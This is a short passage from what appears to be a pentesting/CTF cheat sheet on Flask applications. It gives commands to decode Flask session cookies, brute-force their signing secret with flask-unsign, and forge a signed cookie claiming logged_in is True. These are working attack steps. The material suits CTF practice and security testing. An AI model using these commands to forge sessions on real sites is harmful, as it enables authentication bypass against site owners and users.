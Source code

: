 # Flask

**Probably if you are playing a CTF a Flask application will be related to** [**SSTI**](../../pentesting-web/ssti-server-side-template-injection.md)**.**

## Cookies

### Decoder

Online Flask coockies decoder: [https://www.kirsle.net/wizards/flask-session.cgi](https://www.kirsle.net/wizards/flask-session.cgi)

#### Manual

Get the first part of the cookie until the first point and Base64 decode it&gt;

```text
echo "ImhlbGxvIg" | base64 -d
```

The cookie is also signed using a password

###  **Flask-Unsign**

Command line tool to fetch, decode, brute-force and craft session cookies of a Flask application by guessing secret keys.

{% embed url="https://pypi.org/project/flask-unsign/" %}

```text
pip3 install flask-unsign
```

#### **Decode Cookie**

```text
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
```

#### **Brute Force**

```text
flask-unsign --unsign --cookie < cookie.txt
```

#### **Signing**

```text
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME'
```

#### Signing using legacy \(old versions\)

```text
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME' --legacy
```

#### 

